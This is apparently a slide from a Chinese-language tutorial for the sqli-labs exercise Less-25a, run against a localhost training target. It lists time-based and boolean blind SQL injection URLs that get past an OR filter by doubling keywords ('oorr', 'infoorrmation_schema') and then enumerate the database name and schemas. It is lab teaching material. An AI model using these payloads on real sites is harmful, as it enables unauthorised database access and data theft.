

# Less-25a_02
当我们使用基于时间的布尔盲注：
1. http://127.0.0.1/sqli/Less-25a/?id=-1 oorr if(length(database())>1,1,sleep(5))--+ 可以通过这个判断当前数据库长度
2. http://127.0.0.1/sqli/Less-25a/?id=-1 oorrif(left(database(),1)>‘a’,1,sleep(5))--+ 判断当前数据库的组成
3. http://127.0.0.1/sqli/Less-25a/?id=-1 oorr if(left((select schema_name from infoorrmation_schema.schemata limit 0,1),1)>‘a’,1,sleep(5))--+ 通过这个判断所有的数据库
依次再进行下去。。。
当我们使用布尔盲注的时候：
1. http://127.0.0.1/sqli/Less-25a/?id=-1 oorr length(database())>1--+ 此时页面返回正常，则得知当前的数据库长度是大于1的
2. http://127.0.0.1/sqli/Less-25a/?id=-1 oorr left((select schema_name from infoorrmation_schema.schemata limit 0,1),1)>‘a’--+当前的页面返回正常，说明此时的第一个数据库的第一个字母是大于a的
3. http://127.0.0.1/sqli/Less-25a/?id=-1 oorr left((select schema_name from infoorrmation_schema.schemata limit 0,1),1)=‘a’--+ 此时等于a的时候，页面返回异常，说明我们的语句写的是正确的。
依次再进行下去。。。